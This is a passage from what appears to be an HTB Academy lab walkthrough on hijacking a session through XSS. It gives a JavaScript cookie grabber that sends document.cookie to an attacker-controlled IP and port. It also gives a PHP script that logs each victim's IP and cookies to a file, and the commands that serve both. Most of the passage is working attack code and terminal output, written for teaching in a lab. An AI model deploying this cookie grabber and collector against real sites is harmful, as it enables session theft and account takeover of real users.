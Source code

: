 Thus, students need to copy the URL to Julie's profile, which is `http://minilab.htb.net/profile?email=julie.rogers@example.com`, and instead of sending a get request to the local machine, they need to steal the admin's cookie. First, students need to write a JS cookie grabber to a local file (named `script.js`) so that it get requested for:

Code: js

```js
new Image().src='http://PWNIP:PWNPO/index.php?c=' + document.cookie;
```

Students can use `cat` to save the cookie grabber into a file:

Code: shell

```shell
cat << 'EOF' > script.js
new Image().src='http://10.10.14.41:9001/index.php?c=' + document.cookie;
EOF
```

```
┌─[us-academy-1]─[10.10.14.41]─[htb-ac413848@htb-nvwebl9plw]─[~]
└──╼ [★]$ cat << 'EOF' > script.js
> new Image().src='http://10.10.14.41:9001/index.php?c=' + document.cookie;
> EOF
```

Subsequently, students need to write a PHP script (named `index.php`) that will split cookies in case many were received (and writes them to a file):

Code: php

```php
<?php
if (isset($_GET['c'])) {
    $list = explode(";", $_GET['c']);
    foreach ($list as $key => $value) {
        $cookie = urldecode($value);
        $file = fopen("cookies.txt", "a+");
        fputs($file, "Victim IP: {$_SERVER['REMOTE_ADDR']} | Cookie: {$cookie}\n");
        fclose($file);
    }
}
?>
```

Then, students need to start an HTTP server with PHP in the same directory where `script.js` and `index.php` are:

Code: shell

```shell
php -S 0.0.0.0:PWNPO
```

```
┌─[us-academy-1]─[10.10.14.41]─[htb-ac413848@htb-nvwebl9plw]─[~]
└──╼ [★]$ php -S 0.0.0.0:9001

[Tue Nov 29 04:14:23 2022] PHP 7.4.30 Development Server (http://0.0.0.0:9001) started
```
